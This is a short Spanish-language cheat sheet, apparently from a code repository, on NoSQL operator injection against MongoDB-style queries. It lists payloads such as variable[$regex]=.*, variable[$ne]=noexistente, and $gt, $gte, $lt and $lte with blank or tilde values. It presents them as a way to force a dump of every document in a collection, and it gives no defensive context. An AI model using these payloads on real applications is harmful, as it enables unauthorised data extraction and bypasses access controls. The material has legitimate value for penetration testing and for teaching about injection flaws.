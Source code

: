 ## INFO

Podemos aprovechar los operadores para forzar una exfiltración de toda la data de una colección:

### Regex:

        variable[$regex]=.\*

### No-Match

        variable[$ne]=noexistente

### Length

En este caso los terminos a buscar van en blanco.

Buscar todos los documentos que sean mayores que

        variable[$gt]=

Buscar todos los documentos que sean mayores o iguales a

        variable[$gte]=

### TILDA
Usamos la tilda para buscar todos los datos que sean menores a la misma (tilda es el valor imprimible más largo de los valores ASCII).

        variable[$lt]=~

Misma lógica con menor o igual:

        variable[$lte]=~

